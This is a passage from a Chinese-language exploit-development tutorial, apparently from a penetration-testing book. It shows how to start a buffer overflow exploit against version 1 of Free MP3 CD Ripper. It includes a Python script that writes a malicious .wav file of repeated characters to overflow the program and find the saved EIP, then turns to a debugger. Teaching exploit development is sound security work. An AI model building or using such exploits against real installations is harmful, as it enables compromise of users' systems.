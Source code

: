 ![理解基本缓冲区溢出](img/B04315_08_14.jpg)

现在您已经了解了将数据注入缓冲区并溢出的基础知识，我们可以针对一个真正易受攻击的解决方案。我们将使用 Free MP3 CD Ripper 程序作为示例。这个程序在开发利用程序方面提供了非常少的实际价值，但开发它是一个相对简单的练习。

# 编写基本缓冲区溢出利用

我们将利用 Free MP3 CD Ripper 软件程序的版本 1。为此，我们需要从以下位置下载并安装该产品[`free-mp3-cd-ripper.en.softonic.com/`](http://free-mp3-cd-ripper.en.softonic.com/)。为了利用该程序的弱点，我们将使用以下 Python 脚本，它将生成一个恶意的.wav 文件，可以上传到该程序中。数据将被解释，并将创建一个我们可以观察并尝试调整和构建利用的溢出条件。如前所述，我们将加载多种不同的字符到该文件中，以便我们可以估计存储的 EIP 值的相对位置。

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4000
fill +="B"*1000
fill +="C"*1000
exploit = fill
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

这个脚本将用四千个 A，一千个 B 和一千个 C 填充恶意的波形文件。现在，打开 Immunity 程序，如下所示：

![编写基本缓冲区溢出利用](img/B04315_08_15.jpg)
